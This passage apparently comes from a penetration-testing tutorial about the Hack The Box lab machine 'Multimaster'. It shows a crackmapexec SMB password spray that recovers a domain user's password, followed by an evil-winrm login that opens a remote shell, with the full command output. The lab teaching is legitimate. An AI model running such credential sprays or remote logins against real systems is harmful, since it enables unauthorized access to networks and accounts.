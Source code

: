 1601: MEGACORP\alice

1602: MEGACORP\test

Retrying the previously found passwords with these users, we get a hit with user tushikikatomo and password finance1:

┌─\[rin@parrot\]─\[~/boxes/Multimaster\]

└──╼ $crackmapexec smb multimaster.htb -u users.txt -p passwords.txt

SMB 10.129.1.125 445 MULTIMASTER \[\*\] Windows Server 2016 Standard 14393 x64 \(name:MULTIMASTER\) \(domain:MEGACORP.LOCAL\) \(signing:True\) \(SMBv1:True\)

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\svc-nas:password1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\svc-nas:finance1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\svc-nas:banking1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\svc-nas: STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[-\] MEGACORP.LOCAL\tushikikatomo:password1 STATUS\_LOGON\_FAILURE

SMB 10.129.1.125 445 MULTIMASTER \[+\] MEGACORP.LOCAL\tushikikatomo:finance1

Using evil-winrm, we can finally get on the box with those credentials:

┌─\[rin@parrot\]─\[~/boxes/Multimaster\]

└──╼ $evil-winrm -u tushikikatomo -p 'finance1' -i multimaster.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

\*Evil-WinRM\* PS C:\Users\alcibiades\Documents&gt;

We will leave this machine there as there is still a way to go to get to root and it is not relevant to the current chapter



